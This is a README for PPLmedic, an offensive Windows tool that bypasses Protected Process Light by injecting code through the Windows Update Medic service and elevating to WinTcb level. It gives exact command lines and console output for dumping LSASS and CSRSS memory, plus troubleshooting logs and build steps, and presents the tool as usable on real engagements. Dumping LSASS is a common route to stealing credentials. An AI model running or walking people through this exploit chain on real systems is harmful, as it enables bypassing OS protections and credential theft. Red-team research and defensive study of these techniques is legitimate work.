

# PPLmedic

<p align="center">
  
</p>

This tool implements a **Userland** exploit chain for injecting arbitrary code into a PPL with the signer type `Windows` and elevating to the signer type `WinTcb`. These techniques were originally discussed by James Forshaw (a.k.a. [@tiraniddo](https://infosec.exchange/@tiraniddo)) in his blog post [Injecting Code into Windows Protected Processes using COM - Part 1](https://googleprojectzero.blogspot.com/2018/10/injecting-code-into-windows-protected.html).

To learn more about this tool, you should read its companion blog post here:

- [Bypassing PPL in Userland (again)](https://blog.scrt.ch/2023/03/14/bypassing-ppl-in-userland-again/)

## 💣 Disclaimer

I would qualify this tool as an _advanced Proof-of-Concept_. You should think twice before using it on a real engagement. It is safe to use as long as it is __not interrupted__, which cannot be guaranteed in the presence of an EDR for instance.

It modifies important registry keys related to the Windows Update Medic service. At worst, if those registry keys are not restored properly, this service will fail to function properly, but this __will not crash__ the OS.

## 📝 Usage

Prerequisites:

- __Privileges:__ Administrator or SYSTEM with `SeDebugPrivilege`
- __Platform:__ Windows 10/11 or Windows Server 2019/2022
- __Architecture:__ Only __x86_64__ is supported

```bat
REM Use the option -p to elevate from PPL-Windows to PPL-WinTcb
PPLmedic.exe dump "PID" "C:\FULL\PATH\TO\DUMP.dmp" [-p]
```

Dump a PPL-Windows or below (e.g.: LSASS):

```console
C:\WINDOWS\system32>tasklist | findstr lsass
lsass.exe                      756 Services                   0     20,028 K

C:\WINDOWS\system32>C:\Temp\PPLmedic.exe dump 756 c:\Temp\lsass.dmp
[...]
[+] Payload DLL successfully loaded after 272 attempts!
[*] Deleting 272 temporary directories created by the service...
[*] Connected to remote process.
[+] Remote process protection level: 0x00000002 (PsProtectedSignerWindows-Light)
[+] Memory dump of process with PID 756 successful: c:\Temp\lsass.dmp
[...]
```

Dump a PPL-WinTcb (e.g.: CSRSS):

```console
C:\WINDOWS\system32>tasklist | findstr csrss
csrss.exe                      520 Services                   0     26,420 K
csrss.exe                      608 Console                    1     57,548 K

C:\WINDOWS\system32>C:\Temp\PPLmedic.exe dump 520 c:\Temp\csrss.dmp -p
[...]
[+] Payload DLL successfully loaded after 181 attempts!
[*] Deleting 181 temporary directories created by the service...
[*] Connected to remote process.
[+] Remote process protection level: 0x00000002 (PsProtectedSignerWindows-Light)
[*] Attempting to get a higher process protection level...
[+] Target file 'C:\Users\LAB-AD~1\AppData\Local\Temp\faultrep.dll' should now be cache signed (level=12 - Windows).
[*] Connected to remote process.
[+] Remote process protection level: 0x00000000 (PsProtectedSignerWinTcb-Light)
[+] Memory dump of process with PID 520 successful: c:\Temp\csrss.dmp
[...]
```

## 📋 Tests

| Windows version | PPL-Windows | PPL-WinTcb | Observation |
| --- | :---: | :---: | --- |
| __Windows 10__ 22H2 Build 19045.2673 | ✔ | ✔ | N/A |
| __Windows 11__ 22H2 Build 22621.1344 | ⚠ | ❌ | Frequent service crash + Fake cached signature exploit does not seem to work. |
| __Windows Server 2019__ Version 1809 Build 17763.4010 | ✔ | ✔ | N/A |
| __Windows Server 2022__ Version 21H2 Build 20348.1547 | ✔ | ✔ | N/A |

## 🚧 Known issues

### Error: "Unexpected error or timeout"

You get the following error because the exploit __timed out__ while trying to create a remote `TaskHandler` COM object. This is usually the sign that the target service `WaaSMedicSvc` crashed. This can be confirmed with the next message: `[!] Service WaaSMedicSvc is no longer running`. __You should try to run the tool again.__

```console
C:\Windows\System32>C:\Temp\PPLmedic.exe dump 1234 C:\Temp\1234.dmp
[...]
[*] Trying to write a valid object directory handle...
[*] Attempt 100/1000 (10%)
[*] Attempt 200/1000 (20%)
[-] Unexpected error or timeout while trying to create a remote TaskHandler instance.
[!] Service WaaSMedicSvc is no longer running, it probably crashed because of an invalid handle value.
[...]
```

### Error: "Reached the maximum number of attempts"

You get the following error because the exploit failed to write a valid object directory in __less than 1000 attempts__. This limit serves as a failsafe to prevent the target service from consuming too much resources. __You should try to run the tool again.__

```console
C:\Windows\System32>C:\Temp\PPLmedic.exe dump 1234 C:\Temp\1234.dmp
[...]
[*] Trying to write a valid object directory handle...
[...]
[*] Attempt 1000/1000 (100%)
[-] Reached the maximum number of attempts.
[...]
```

### Error: "Failed to write LdrpKnownDllDirectoryHandle value"

You get the following error because an unexpected error occurred when calling `LaunchDetectionOnly` or `LaunchRemediationOnly`. This should be quite rare though. __You should try to run the tool again.__

```console
C:\Windows\System32>C:\Temp\PPLmedic.exe dump 1234 C:\Temp\1234.dmp
[...]
[*] Trying to write a valid object directory handle...
[*] Attempt 100/1000 (10%)
[*] Attempt 200/1000 (20%)
[-] Failed to write LdrpKnownDllDirectoryHandle value (thread exit code: 0x800706ba).
[...]
```

### Error: "Failed to cache sign ..."

You get the following error because the exploit __failed to cache sign__ the payload DLL. The oplock set on the catalog file was probably never triggered because it was already opened by the Kernel. You can try to rerun the tool at a later time (for Windows 11, refer to the "Tests" section).

```console
C:\Windows\System32>C:\Temp\PPLmedic.exe dump 1234 C:\Temp\1234.dmp -p
[...]
[*] Trying to write a valid object directory handle...
[+] Payload DLL successfully loaded after 1 attempts!
[*] Connected to remote process.
[+] Remote process protection level: 0x00000002 (PsProtectedSignerWindows-Light)
[*] Attempting to get a higher process protection level...
[-] Failed to cache sign 'C:\Users\LAB-AD~1\AppData\Local\Temp\faultrep.dll' (LE: 997).
[...]
```

## 🏗 Build instructions

This Visual Studio Solution comprises two projects (the executable and a payload DLL) that need to be compiled in a specific order. Everything is pre-configured, so you just have to follow these simple instructions. The compiled payload DLL is automatically embedded into the final executable.

1. Open the Solution with Visual Studio 2019.
2. Select `Release / x64` (`x86` is not supported!).
3. `Build > Build Solution`.

## 🎖 Credits

- [@tiraniddo](https://infosec.exchange/@tiraniddo) - Injecting Code into Windows Protected Processes using COM - Part 1  
[https://googleprojectzero.blogspot.com/2018/10/injecting-code-into-windows-protected.html](https://googleprojectzero.blogspot.com/2018/10/injecting-code-into-windows-protected.html)
